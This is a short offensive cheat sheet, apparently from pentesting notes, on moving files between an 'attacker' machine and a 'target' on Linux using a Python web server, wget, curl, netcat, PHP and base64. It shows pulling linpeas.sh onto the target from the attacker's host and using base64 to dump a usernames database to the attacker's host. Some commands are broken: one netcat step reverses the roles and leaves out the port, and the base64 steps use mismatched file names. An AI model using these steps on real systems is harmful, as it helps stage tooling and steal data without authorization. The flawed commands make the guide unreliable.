 ```yaml
---
title: Transfer Files
description: Techinque
---
```

## Transfer Files  

## Methods on Linux  

### 1. Python Webserver  
Start a simple web server to host files:  
```bash
python3 -m http.server 80
```
Imagine you want to transfer linpeas.sh to the target machine, so you do
```bash
curl -o linpeas.sh http://yourip:80/linpeas.sh
```  

### 2. Wget  
Download a file using `wget`:  
```bash
wget http://192.168.1.102/file.txt
```  

### 3. Curl  
Download with `curl`:  
```bash
curl -O http://192.168.1.102/file.txt
```  

### 4. Netcat  
#### From attacker to target:  
On the attacker machine:  
```bash
nc -lvp 4444 < file
```  
On the target machine:  
```bash
nc 192.168.1.102 4444 > file
```  

#### From target to attacker:  
On the target machine:  
```bash
nc -lvp 3333 > file.sh
```  
On the attacker machine:  
```bash
nc 192.168.1.103 < file.sh
```  

### 5. PHP  
Download a file using PHP:  
```bash
echo "<?php file_put_contents('file.txt', fopen('http://192.168.1.102/file.txt', 'r')); ?>" > download.php
```  

### 6. Base64 Transfer  
#### Encode a file:
One of my favorites, especially I use it for dump databases to my host
#### Copy the output of encoding in Base64
```bash
base64 usernames.db > encodedb.txt
```
#### Decode on target:
Now on your host
```bash
base64 -d encodeddb.txt > usernames.db
```  


